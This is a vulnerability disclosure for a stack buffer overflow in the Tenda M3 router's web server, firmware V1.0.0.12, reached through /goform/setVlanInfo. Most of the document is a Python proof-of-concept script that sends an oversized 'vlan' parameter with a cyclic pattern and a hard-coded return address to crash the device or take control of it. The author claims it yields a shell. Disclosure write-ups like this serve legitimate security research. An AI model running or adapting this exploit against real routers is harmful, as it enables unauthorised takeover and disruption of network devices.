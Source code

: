 # Tenda M3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `fromSetLocalVlanInfo` function, which can be accessed via the url  `/goform/setVlanInfo`.

![1](./1.jpg)



When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import  requests
from pwn import *

 

if __name__ == '__main__':
    #Fireitup
    payload='a'*29+'\xfc\x69\x04\x01'
    #payload=payload.ljust(900,'a')
    payload+=cyclic(771)+'\xfc\x69\x04\x00'
    url = 'http://192.168.10.1/goform/setVlanInfo'  
    # 构造http数据包

    pdata = {

        'action'  :   'add' ,
        'vlan'  :   payload
        }

    header = {
        'Cookie'        : 'bLanguage=cn; user=admin; workMode=slave',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        print pdata
        a=requests.get(url,params=pdata,headers=header)
        #print a.text
        print '[+] execute ok'
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)




```





![poc](./poc.jpg)



